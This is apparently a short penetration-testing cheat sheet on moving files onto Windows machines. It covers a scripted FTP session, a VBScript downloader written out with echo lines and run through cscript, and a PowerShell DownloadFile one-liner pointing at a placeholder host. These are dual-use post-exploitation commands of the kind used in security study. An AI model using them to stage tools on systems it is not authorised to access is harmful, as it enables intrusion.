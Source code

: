 # File Transfers

## Windows

### Non-interactive FTP

```
echo open ipaddress> ftp.txt
echo USER username>> ftp.txt
echo password>> ftp.txt
echo bin>> ftp.txt
echo GET filename>> ftp.txt
echo bye>> ftp.txt
ftp -n -v -s:ftp.txt
```

### VBScript

```
curl -L -O https://gist.githubusercontent.com/maddouri/da64f298e19bff0cd1ce46ee83317bfe/raw/90080a73b892b09dde9dd2c787814bac502d7f46/wget.vbs
```
```
cat wget.vbs | sed -e 's/^/echo /' | sed -e 's/$/>> wget.vbs/' > wget.vbs.echo
```
```
cscript wget.vbs <url> (file)
```

### Powershell

```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://ipaddress/filename', 'filename')
```
